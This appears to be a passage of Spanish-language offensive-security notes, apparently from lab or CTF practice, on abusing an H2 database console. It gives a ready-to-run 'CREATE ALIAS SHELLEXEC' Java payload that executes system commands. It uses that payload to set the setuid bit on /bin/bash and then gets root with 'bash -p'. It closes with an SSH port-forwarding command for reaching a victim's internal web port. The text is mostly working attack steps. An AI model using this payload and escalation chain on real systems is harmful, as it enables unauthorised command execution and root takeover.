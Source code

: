 Basicamente si te pide insertar un comando para ejecutarlo y el propietario del que lo esta ejecutando ese CMS sea `root` se podra hacer lo siguiente...

Buscar por `Google` 'Abuse H2 Database' y en la siguiente `URL`...

URL = https://mthbernardes.github.io/rce/2018/03/14/abusing-h2-database-alias.html

Por lo que si haces lo siguiente en el recuadro de ejecutar comandos...

```
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A"); return s.hasNext() ? s.next() : "";  }$$;
CALL SHELLEXEC('id')
```

Con eso se podra ver el `id` del usuario que lo esta ejecutando y para poder escalar privilegios si lo esta ejecutando `root` y con otro usuario estas dentro de la maquina, se podra hacer lo siguiente...

```
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A"); return s.hasNext() ? s.next() : "";  }$$;
CALL SHELLEXEC('chmod u+s /bin/bash')
```

Y con el otro usuario hacer...

```shell
bash -p
```

Y ya serias `root`...

### Exportar puerto con ssh a tu host

Si en la maquina victima hay un puerto web que quieres visualizar en un navegador y tienes las credenciales para conectarte por `ssh`, podremos pasar ese puerto de la maquina victima a un puerto nuestro del `host` para poderlo visualizar en nuestro `host` con el contenido de la maquina victima...

```shell
ssh <USER>@<IP> -L <PORT_VICTIM>:127.0.0.1:<PORT_HOST>
```

> EJEMPLO

```shell
ssh user@<IP> -L 8082:127.0.0.1:8082
```

Se ingresaria la contraseña del usuario y te meteria dentro del `ssh`, pero si ahora nos vamos a visualizar desde el `host` ese puerto con la siguiente `URL`...

```
URL = http://127.0.0.1:<PORT>/
```

```
URL = http://127.0.0.1:8082/
```
